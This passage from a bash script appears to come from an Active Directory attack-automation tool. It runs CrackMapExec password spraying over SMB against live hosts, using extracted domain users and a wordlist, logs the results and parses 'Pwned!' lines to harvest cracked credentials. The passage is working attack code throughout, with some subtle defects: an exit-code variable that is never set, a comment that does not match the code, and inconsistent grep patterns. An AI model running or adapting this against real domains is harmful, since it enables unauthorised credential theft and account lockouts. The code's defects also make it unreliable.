     # 4.2. Intermediate: Execute domain-wide password spraying to identify weak credentials.
    if [ "$EXPLOIT_LEVEL" -ge 2 ]; then
        echo -e "${GREEN}[+] 4.2. Intermediate Exploitation: Executing domain-wide password spraying.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
        local users_file="${OUTPUT_DIR}/domain_users.txt" # File to store extracted users
        local spray_password_source_arg="$WORDLIST" # Now always uses WORDLIST
        local chosen_password_source_desc="wordlist '${WORDLIST}'"

        if [ "$ENUM_LEVEL" -ge 3 ] && [ -f "$users_file" ] && [ -s "$users_file" ]; then
            echo -e "${CYAN}[i] Domain users extracted from Advanced Enumeration will be used for password spraying with $chosen_password_source_desc.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
            
            start_spinner "Performing password spraying"
            echo # Newline after spinner start

            local spray_cmd_array=(crackmapexec smb "$(echo "$live_hosts" | tr ',' ' ')" -u "$users_file" -p "$spray_password_source_arg" -d "$AD_DOMAIN_NAME" --continue-on-success) # Changed from DOMAIN_NAME
            echo -e "${CYAN}Executing: ${BLUE}${spray_cmd_array[*]}${NC}" | tee -a "$EXPLOITATION_LOG"
            local spray_output=$("${spray_cmd_array[@]}" 2>&1) # Strip ANSI codes
            echo "$spray_output" | tee -a "$EXPLOITATION_LOG"
            stop_spinner
            echo # Newline after spinner
            if [ "$spray_exit_code" -ne 0 ]; then 
                echo -e "${RED}[!] ERROR: CrackMapExec password spraying failed with exit code $spray_exit_code. This might be due to invalid credentials, network issues, or account lockouts.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
            fi
            {
                echo -e "\n--- Password Spraying Results (against extracted users) ---"
                echo "$spray_output"
            } | tee -a "$EXPLOITATION_LOG"

            # Parse cracked sprayed creds
            CRACKED_SPRAYED_CREDS=$(echo "$spray_output" | grep -E '\S+\s+\S+\s+Pwned!' | awk '{print $NF}' | tr '\n' ',' | sed 's/,$//')
        elif [ -n "$AD_USER" ] && [ -n "$AD_PASS" ]; then
            echo -e "${YELLOW}[!] No domain user list found from Advanced Enumeration. Spraying against the provided AD user only, using $chosen_password_source_desc.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
            
            start_spinner "Performing password spraying against provided AD user"
            echo # Newline after spinner start

            local spray_cmd_array=(crackmapexec smb "$(echo "$live_hosts" | tr ',' ' ')" -u "$AD_USER" -p "$AD_PASS" -d "$AD_DOMAIN_NAME" --continue-on-success) # Changed from DOMAIN_NAME
            echo -e "${CYAN}Executing: ${BLUE}${spray_cmd_array[*]}${NC}" | tee -a "$EXPLOITATION_LOG"
            local spray_output=$("${spray_cmd_array[@]}" 2>&1) # Strip ANSI codes
            echo "$spray_output" | tee -a "$EXPLOITATION_LOG"
            stop_spinner
            echo # Newline after spinner
            if [ "$spray_exit_code" -ne 0 ]; then 
                echo -e "${RED}[!] ERROR: CrackMapExec password spraying failed with exit code $spray_exit_code. This might be due to invalid credentials, network issues, or account lockouts.${NC}" | tee -a "$LOG_FILE" | tee -a "$EXPLOITATION_LOG"
            fi
            {
                echo -e "\n--- Password Spraying Results (against provided AD user) ---"
                echo "$spray_output"
            } | tee -a "$EXPLOITATION_LOG"
            CRACKED_SPRAYED_CREDS=$(echo "$spray_output" | grep -E '\S+\S+\s+Pwned!' | awk '{print $NF}' | tr '\n' ',' | sed 's/,$//')
        else